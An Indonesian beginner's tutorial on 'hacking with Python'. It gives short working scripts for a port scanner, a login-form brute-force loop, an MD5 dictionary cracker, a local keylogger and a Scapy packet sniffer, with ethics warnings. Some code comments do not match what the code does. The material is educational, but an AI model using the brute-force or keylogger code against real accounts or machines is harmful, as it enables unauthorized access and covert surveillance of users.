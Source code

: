 ```yaml
---
tags: [hacking]
title: Hacking dengan Python
created: '2025-04-06T13:52:24.944Z'
modified: '2025-04-21T10:12:05.188Z'
---
```


# Hacking dengan Python

## **📌 0. Prasyarat**
Sebelum belajar hacking dengan Python, pastikan Anda sudah menguasai:
1. **Dasar Python**: Variabel, loop, fungsi, file I/O.
2. **Dasar Jaringan (Networking)**: Protokol TCP/IP, HTTP, port, DNS.
3. **Tools Penting**:
   - Python 3.x (versi terbaru).
   - Text editor (VS Code, Sublime, atau PyCharm).
   - Terminal/Command Prompt.

> ⚠️ **Catatan Etika**:  
> Hacking hanya untuk tujuan pembelajaran/pengujian keamanan **dengan izin**. Illegal hacking adalah tindakan kriminal.

---

## **📌 1. Fundamental Hacking dengan Python**
### **🔹 1.1. Socket Programming (Dasar Networking)**
Socket adalah cara Python berkomunikasi via jaringan (TCP/UDP).  
**Contoh: Membuat TCP Client-Server Sederhana**  
```python
# Server
import socket

# buat socket dengan reusable address agar port bisa dihapus secara otomatis saat tidak digunakan
server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server_socket.bind(("192.168.1.13", 8080))
server_socket.listen(1)
print("Server berjalan di port 8080...")

try:
    while True:
        conn, addr = server_socket.accept()
        print("Terhubung ke-", addr)
        conn.send(b"Hello motherfucker!")
        conn.close()
except KeyboardInterrupt:
    print("\nServer berhenti.")
finally:
    server_socket.close()

# Client
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8080))  # Ganti dengan IP server
print(s.recv(1024).decode())  # Output: Hello from server!
s.close()
```
**Aplikasi**: Port scanner, reverse shell, packet sniffer.

---

### **🔹 1.2. Membuat Port Scanner**
Port scanner berguna untuk menemukan port terbuka di suatu host.  
```python
import socket

target = "127.0.0.1"  # Ganti dengan target IP
ports = [21, 22, 80, 443]  # FTP, SSH, HTTP, HTTPS

for port in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(1)
    result = s.connect_ex((target, port))
    if result == 0:
        print(f"Port {port} terbuka!")
    s.close()
```
**Hasil**:
```
Port 80 terbuka!
Port 443 terbuka!
```

---

### **🔹 1.3. Web Hacking (Requests & BeautifulSoup)**
Python bisa digunakan untuk **web scraping** dan **automation**.  
**Contoh: Login Form Brute-Force**  
```python
import requests

url = "http://target.com/login"
usernames = ["admin", "user"]
passwords = ["123456", "password"]

for username in usernames:
    for password in passwords:
        data = {"username": username, "password": password}
        response = requests.post(url, data=data)
        if "Login berhasil" in response.text:
            print(f"Credentials ditemukan! {username}:{password}")
            break
```
**Aplikasi**: Web scraping, SQL injection testing, CSRF exploitation.

---

## **📌 2. Proyek Mini untuk Dipraktikkan**
### **🔹 2.1. Password Cracker (Dictionary Attack)**
Mencoba memecah password dengan wordlist.  
```python
import hashlib

password_hash = "5f4dcc3b5aa765d61d8327deb882cf99"  # Hash MD5 dari "password"
wordlist = ["123456", "password", "admin", "letmein"]

for word in wordlist:
    guess = hashlib.md5(word.encode()).hexdigest()
    if guess == password_hash:
        print(f"Password ditemukan: {word}")
        break
```
**Tips**: Gunakan wordlist dari [SecLists](https://github.com/danielmiessler/SecLists).

---

### **🔹 2.2. Keylogger Sederhana**
Mencatat input keyboard (hanya untuk edukasi!).  
```python
import keyboard
import time

def on_key_press(event):
    with open("log.txt", "a") as f:
        f.write(f"{event.name}\n")

keyboard.on_press(on_key_press)
keyboard.wait()  # Tekan 'Esc' untuk berhenti
```
**⚠️ Peringatan**: Hanya gunakan di mesin Anda sendiri!

---

### **🔹 2.3. Packet Sniffer (Menggunakan Scapy)**
Analisis lalu lintas jaringan.  
```python
from scapy.all import *

def packet_callback(packet):
    if packet.haslayer(IP):
        src = packet[IP].src
        dst = packet[IP].dst
        print(f"Packet: {src} -> {dst}")

sniff(prn=packet_callback, count=10)  # Capture 10 paket
```
**Instalasi Scapy**:  
```bash
pip install scapy
```

---

## **📌 3. Sumber Belajar Lanjutan**
| Topik              | Sumber Belajar                                                                 |
|--------------------|------------------------------------------------------------------------------|
| **Python Hacking** | [Black Hat Python](https://nostarch.com/blackhatpython) (Buku)               |
| **Networking**     | [Computer Networking: A Top-Down Approach](https://gaia.cs.umass.edu/kurose_ross/) |
| **CTF & Lab**      | [TryHackMe](https://tryhackme.com/), [Hack The Box](https://www.hackthebox.com/) |

---

## **📌 4. Tips Anti-Burnout**
1. **Mulai dari proyek kecil** (jangan langsung belajar malware kompleks).  
2. **Gabung komunitas** (Discord, Reddit, forum hacking).  
3. **Istirahat setiap 1 jam**.  
4. **Catat progress** di GitHub/blog.  

---

### **🚀 Tantangan Akhir**
Buat **port scanner** yang bisa:
- Scan range port (1-1000).  
- Deteksi service (HTTP, SSH, FTP).  
- Multithreading untuk percepat scan.  

Bagi hasilnya di GitHub dan share linknya!  

🔥 **Selamat belajar!** Jika ada yang belum jelas, tanya di komentar.
